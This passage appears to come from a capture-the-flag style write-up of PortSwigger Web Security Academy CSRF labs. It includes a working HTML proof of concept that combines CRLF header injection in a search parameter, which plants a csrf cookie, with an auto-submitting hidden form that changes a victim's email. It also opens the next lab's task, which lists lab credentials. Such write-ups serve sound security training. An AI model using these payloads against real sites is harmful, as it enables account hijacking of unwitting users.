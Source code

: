 
The search function uses again the LastSearchTerm parameter with the last searched term:



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/4.png)


We will update the PoC from the previous lab:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
      <form action="https://0a3400fa040b0564802fee0a002000c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test12&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="TESTING123" />
      <input type="submit" value="Submit request" />
      </form>
      
      <img src='https://0a3400fa040b0564802fee0a002000c9.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=TESTING123%3b%20SameSite=None' onerror="document.forms[0].submit()" />

  </body>
</html>
```

# 07 SameSite Lax bypass via method override

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

Note: The default SameSite restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.
